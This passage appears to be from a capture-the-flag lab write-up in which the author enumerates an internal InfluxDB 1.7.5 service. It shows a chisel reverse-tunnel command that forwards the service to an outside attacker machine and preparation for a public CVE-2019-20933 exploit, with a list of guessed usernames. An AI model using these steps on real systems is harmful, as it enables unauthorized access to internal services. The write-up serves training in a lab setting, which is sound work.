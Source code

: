 Checking for open ports on the machine we see it seems to be listening on localhost on its default port.

```
patrick@devzat:~/pets$ ss -ln
...[snip]...
tcp		LISTEN		0		4096		127.0.0.1:8086		0.0.0.0:*
...[snip]...
```

Doing a HEAD request on it we can identify the version to be `1.7.5` for which a known CVE exists.

```
patrick@devzat:~$ curl -I http://127.0.0.1:8086
HTTP/1.1 404 Not Found
Content-Type: text/plain; charset=utf-8
X-Content-Type-Options: nosniff
X-Influxdb-Build: OSS
X-Influxdb-Version: 1.7.5
Date: Sat, 16 Oct 2021 21:06:15 GMT
Content-Length: 19
```

To use [this](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933) PoC on it we forward it to our machine with chisel.

```
$ chisel server -p 9000 -reverse
2021/10/16 21:04:33 server: Reverse tunnelling enabled
2021/10/16 21:04:33 server: Fingerprint xt8l5g1cRTnKyLo0fa6iK7rjwyGcOSE9g7EaAZ9GHf4=
2021/10/16 21:04:33 server: Listening on http://0.0.0.0:9000
```

```
patrick@devzat:~$ ./chisel client 10.10.14.82:9000 R:8086:127.0.0.1:8086 &
[1] 82221
patrick@devzat:~$ 2021/10/16 21:05:23 client: Connecting to ws://10.10.14.82:9000
2021/10/16 21:05:23 client: Connected (Latency 26.208854ms)
```

After we modify the exploit script to remove the unessecary request for the banner we create a small list of known possible usernames.

`__main__.py`
```py
...[snip]...
if __name__ == '__main__':

    exploit()
```

`users`
```
patrick
catherine
admin
root
```
